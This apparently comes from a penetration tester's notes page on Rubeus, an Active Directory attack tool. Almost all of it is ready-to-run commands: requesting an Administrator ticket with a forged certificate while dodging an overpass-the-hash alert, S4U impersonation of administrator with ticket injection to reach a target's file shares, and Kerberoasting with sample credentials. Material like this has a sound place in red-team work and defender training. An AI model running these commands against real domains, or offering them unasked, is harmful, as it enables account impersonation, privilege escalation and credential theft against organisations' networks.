 # Rubeus

Rubeus is Active Directory exploitation tool that is prodominately used from compromised domain-joined Windows host, so gain access and compile [Rubeus](https://github.com/GhostPack/Rubeus) on the target machine. Compilation instructions can be found [here](https://github.com/GhostPack/Rubeus#compile-instructions)

Impersonate a User for [[AD-Certificate-Exploitation]], use Rubeus to request a TGT using the certificate to verify that the certificate is trusted - [[AD-Certificate-Exploitation]] and [[AD-Persistence-Certificates]]
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```


In [[GenericAll]] abuse; we can then use hash the plaintext password into its RC4_HMAC form:

```powershell
Rubeus.exe hash /password:Summer2018!
```

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```


Kerberoast
```powershell
.\Rubeus.exe kerberoast /creduser:$domain.$tld\$user /credpassword:Password123! /nowrap
```
